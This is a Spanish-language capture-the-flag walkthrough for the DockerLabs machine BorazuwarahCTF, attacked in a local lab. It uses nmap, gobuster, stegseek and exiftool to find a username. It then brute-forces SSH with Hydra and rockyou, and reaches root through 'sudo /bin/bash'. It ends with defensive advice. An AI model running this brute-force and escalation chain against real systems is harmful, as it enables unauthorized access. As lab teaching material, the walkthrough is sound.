# BorazuwarahCTF - DockerLabs

> Laboratorio realizado en entorno local/controlado con fines educativos.  
> No usar estos comandos contra sistemas, redes o servicios reales sin autorización expresa.

## Objetivo

Resolver la máquina **BorazuwarahCTF** de DockerLabs siguiendo un flujo de análisis técnico:

1. Levantar la máquina vulnerable.
2. Identificar puertos abiertos con Nmap.
3. Revisar el servicio web HTTP.
4. Localizar y descargar una imagen publicada en la web.
5. Analizar la imagen con herramientas de esteganografía.
6. Revisar metadatos con ExifTool.
7. Obtener un usuario válido.
8. Realizar una prueba controlada con Hydra contra SSH.
9. Acceder al sistema por SSH.
10. Escalar privilegios mediante una mala configuración de sudo.
11. Crear evidencia final.

## Información de la práctica

| Campo | Valor |
|---|---|
| Plataforma | DockerLabs |
| Máquina | BorazuwarahCTF |
| Entorno | Local / Docker |
| IP de ejemplo | `172.17.0.2` |
| Servicios principales | SSH y HTTP |
| Vector inicial | Imagen publicada en la web |
| Usuario encontrado | `borazuwarah` |
| Contraseña encontrada | `123456` |
| Escalada | `sudo /bin/bash` |

> La IP puede cambiar en cada despliegue. Sustituye `172.17.0.2` por la IP que muestre tu terminal.

## 1. Despliegue de la máquina

Nos situamos en la carpeta de trabajo y levantamos la máquina.

```bash
cd ~/Desktop/Laboratorio/borazuwarah
ls
sudo bash auto_deploy.sh borazuwarahctf.tar
```



## 2. Reconocimiento con Nmap

Escaneamos puertos y servicios.

```bash
nmap -p- -sC -sV --open -sS -n -Pn 172.17.0.2
```

Resultado relevante:

| Puerto | Servicio | Interpretación |
|---|---|---|
| `22/tcp` | SSH | Posible acceso remoto con credenciales. |
| `80/tcp` | HTTP | Web con recurso a analizar. |



## 3. Revisión del servicio web

Comprobamos la respuesta HTTP y revisamos el HTML.

```bash
curl -I http://172.17.0.2
curl -s http://172.17.0.2
```

La página referencia una imagen llamada `imagen.jpeg`.



## 4. Descarga de la imagen

Descargamos la imagen para analizarla localmente.

```bash
wget http://172.17.0.2/imagen.jpeg
ls -l
file imagen.jpeg
```



## 5. Enumeración web con Gobuster

También se puede enumerar la web para comprobar si hay rutas o archivos adicionales.

```bash
gobuster dir -u http://172.17.0.2 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x jpeg,jpg,png,php,txt,html,doc
```



## 6. Análisis de esteganografía

Probamos si la imagen contiene datos ocultos. En el laboratorio puede usarse `stegseek` o `steghide`.

```bash
stegseek imagen.jpeg /usr/share/wordlists/rockyou.txt
steghide extract -sf imagen.jpeg
```



El archivo extraído muestra una pista, pero no la solución completa.

```bash
cat secreto.txt
```



La pista indica que debemos seguir analizando la imagen.

## 7. Análisis de metadatos con ExifTool

Revisamos los metadatos de la imagen.

```bash
exiftool imagen.jpeg
```



Filtramos campos interesantes como usuario, autor, descripción o comentarios.

```bash
exiftool imagen.jpeg | grep -iE "user|author|creator|comment|artist|description"
```



El usuario encontrado es `borazuwarah`.

## 8. Ataque de diccionario controlado con Hydra

Con el usuario identificado, probamos contraseñas débiles contra SSH en el laboratorio.

```bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Hydra encuentra una credencial válida.



Credenciales obtenidas:

| Usuario | Contraseña | Servicio |
|---|---|---|
| `borazuwarah` | `123456` | SSH |

## 9. Acceso inicial por SSH

Accedemos con las credenciales encontradas.

```bash
ssh borazuwarah@172.17.0.2
```



## 10. Enumeración básica del sistema

Comprobamos el usuario actual y el contexto.

```bash
whoami
id
hostname
pwd
ls -la
```



## 11. Revisión de sudo

Revisamos qué puede ejecutar el usuario con privilegios.

```bash
sudo -l
```

El resultado muestra una mala configuración que permite ejecutar `/bin/bash` como root.



## 12. Escalada a root

Ejecutamos una shell como root.

```bash
sudo /bin/bash
whoami
id
```



## 13. Evidencia final

Creamos una evidencia de la práctica.

```bash
echo "Practica BorazuwarahCTF completada" > evidencia_borazuwarah.txt
cat evidencia_borazuwarah.txt
whoami
id
```



## Problemas frecuentes

| Problema | Causa probable | Solución |
|---|---|---|
| No se descarga la imagen | Nombre o ruta incorrecta | Revisar el HTML con `curl -s`. |
| Stegseek no da credenciales útiles | La pista no está en el archivo extraído | Revisar metadatos con ExifTool. |
| Hydra no encuentra la contraseña | Diccionario o usuario incorrecto | Verificar usuario extraído y ruta de `rockyou.txt`. |
| `sudo /bin/bash` no funciona | Permisos sudo diferentes | Revisar `sudo -l`. |

## Medidas defensivas

- Eliminar metadatos sensibles antes de publicar imágenes.
- Evitar contraseñas débiles como `123456`.
- Proteger SSH con bloqueo de intentos y autenticación robusta.
- Revisar permisos `sudo` y evitar permitir `/bin/bash` como root.
- Monitorizar accesos SSH y cambios de privilegios.
- Aplicar el principio de mínimo privilegio.

## Resumen final

La máquina se resuelve mediante análisis de una imagen publicada en la web. La esteganografía ofrece una pista inicial, pero el dato clave aparece en los metadatos. Con el usuario obtenido se realiza una prueba controlada con Hydra, se accede por SSH y se escala a root mediante una mala configuración de `sudo`.
